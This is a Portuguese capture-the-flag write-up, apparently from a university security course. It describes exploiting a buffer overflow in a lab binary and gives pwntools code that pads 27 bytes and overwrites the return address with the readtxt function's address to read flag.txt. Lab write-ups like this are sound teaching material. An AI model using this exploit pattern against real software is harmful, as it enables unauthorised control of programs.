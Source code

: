 # Buffer Overflow

O código fornecido explora a vulnerabilidade manipulando o fluxo de execução do programa, redirecionando-o para abrir e ler o arquivo flag.txt.

## Etapas da Exploração

O comando checksec program permite verificar quais as proteções aplicadas ao binário.

![image](/screenshots/CTF5_1.png)

Estabelecimento da Conexão: O código configura uma conexão com o binário, localmente ou remotamente:

    r = remote('ctf-fsi.fe.up.pt', 4000)  # Para servidor remoto

### Identificação do Offset:

 O offset do buffer overflow foi identificado como 27 bytes.


### Localização da Função readtxt:

O endereço da função readtxt foi identificado como 0x080497a5. Esse endereço foi encontrado utilizando ferramentas objdump:

    objdump -d program | grep readtxt

### Construção do Payload:

O payload é composto por:
- O argumento da função (flag) armazenado no início do buffer.
- Padding para preencher até o offset (27 bytes).
- O endereço da função readtxt sobrescrevendo o endereço de retorno.
- O argumento (flag) repetido, necessário para ser lido corretamente pela função.

O payload final é construído no código da seguinte forma:

    offset = 27  # Offset do buffer overflow
    padding = b"A" * offset
    readtxt_address = 0x080497a5  # Endereço da função readtxt
    argument = b"flag\0"

    payload = b"flag\0" + padding
    payload += p32(readtxt_address)
    payload += b"flag"

### Execução do Ataque:

O payload é enviado após a mensagem inicial do programa:

    r.recvuntil(b"flag:\n")  # Aguarda o prompt do programa
    r.sendline(payload)      # Envia o payload

O programa é explorado para abrir e ler o conteúdo de flag.txt, retornando o resultado ao atacante:

    buf = r.recv().decode()  # Recebe e decodifica a flag
    print(buf)

![image](/screenshots/CTF5_2.png)